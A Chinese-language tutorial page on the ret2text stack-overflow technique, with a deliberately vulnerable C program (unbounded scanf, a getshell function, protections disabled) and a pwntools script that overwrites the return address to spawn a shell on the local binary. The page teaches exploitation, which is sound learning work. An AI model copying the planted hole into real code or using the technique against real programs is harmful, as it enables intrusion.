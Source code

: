 ```yaml
---
title: "Ret2text"
description: "最简单的栈溢出"
lead: ""
date: 2023-03-28T20:20:10+08:00
lastmod: 2023-03-28T20:20:10+08:00
draft: true
images: []
menu:
  docs:
    parent: ""
    identifier: "ret2text-200f08ad839017711639abd549920f35"
weight: 999
toc: true
---
```


## 0x01 介绍

既然溢出可以覆盖局部变量，即利用栈三大功能之一保存局部变量，那么也可以利用栈三大功能之一保存函数返回后的地址，我们可以溢出覆盖函数返回后的地址为任意我们想要它返回执行的地方，从而实现getshell
![image-20230328202136766](./assets/image-20230328202136766.png)
举一个例子来说

```c
#include<stdio.h>
#include<stdlib.h>

void getshell() {	// getshell函数
	system("/bin/sh");
}

void run(){	// 写run函数的目的是为了简化，因为现在32位main函数需要绕过ecx
	char buf[0x10];	/* 局部变量 */
	printf("input: ");
	scanf("%s", buf);
}

int main(){
	run();
	return 0;
}
// gcc ret2text.c -o ret2text -m32 -fno-pic -no-pie -fno-stack-protector
```

按照正常的程序流程来说，main函数应该会返回执行\_libc\_start\_main中的指令，但是scanf的%s格式化控制符是可以无字符数限制输入造成栈溢出的，这样我们就可以想办法覆盖main函数的函数返回地址为程序中getshell函数的地址，从而执行 `system("/bin/sh");`
首先需要的是确定getshell函数的位置，这里可以用objdump之类的工具来查看
![image-20230328202143376](./assets/image-20230328202143376.png)
然后只需要将 `0x804849b` 写入函数返回地址即可，然后就是找buf变量到函数返回地址的偏移量
![image-20230328202148475](./assets/image-20230328202148475.png)
可以从main函数看出buf位于 `ebp-0x18` ，那么偏移量 = 0x18 + 4
写一个python脚本来进行实现攻击，并gdb来看看效果

```python
from pwn import*
context.terminal = ['tmux','splitw', '-h']
o = process("./ret2text")
payload = 'a'*(0x18 + 4) + p32(0x804849b)
gdb.attach(o)
o.sendline(payload)
o.interactive()
```

在进行覆盖前栈内容为
![image-20230328202153432](./assets/image-20230328202153432.png)
覆盖后将变为
![image-20230328202158440](./assets/image-20230328202158440.png)
运行到ret看它的跳转方向
![image-20230328202212249](./assets/image-20230328202212249.png)
这个时候esp指向了getshell函数，即跳转去执行getshell函数
![image-20230328202216325](./assets/image-20230328202216325.png)
继续执行
![image-20230328202220740](./assets/image-20230328202220740.png)

